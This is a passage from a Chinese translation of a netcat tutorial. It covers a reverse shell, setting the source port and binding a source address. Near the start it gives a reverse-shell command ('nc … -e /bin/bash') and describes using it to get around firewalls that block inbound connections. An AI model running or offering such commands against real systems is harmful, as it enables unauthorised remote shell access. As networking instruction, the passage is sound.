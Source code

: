 客户端

$nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。
showme
showme
翻译于 10个月前

5人顶

顶 翻译的不错哦!
10. 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端

$nc -l 1567

客户端

$nc 172.31.100.7 1567 -p 25

使用1024以内的端口需要root权限。

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。
Lax
Lax
翻译于 10个月前

5人顶

顶 翻译的不错哦!
11. 指定源地址

假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。

服务器端

$nc -u -l 1567 < file.txt

客户端

$nc -u 172.31.100.7 1567 -s 172.31.100.5 > file.txt

该命令将绑定地址172.31.100.5。

这仅仅是使用netcat的一些示例。

其它用途有：

使用-t选项模拟Telnet客户端，
HTTP客户端用于下载文件，
连接到邮件服务器，使用SMTP协议检查邮件，
使用ffmpeg截取屏幕并通过流式传输分享，等等。其它更多用途。

简单来说，只要你了解协议就可以使用netcat作为网络通讯媒介，实现各种客户端。

      </p>

  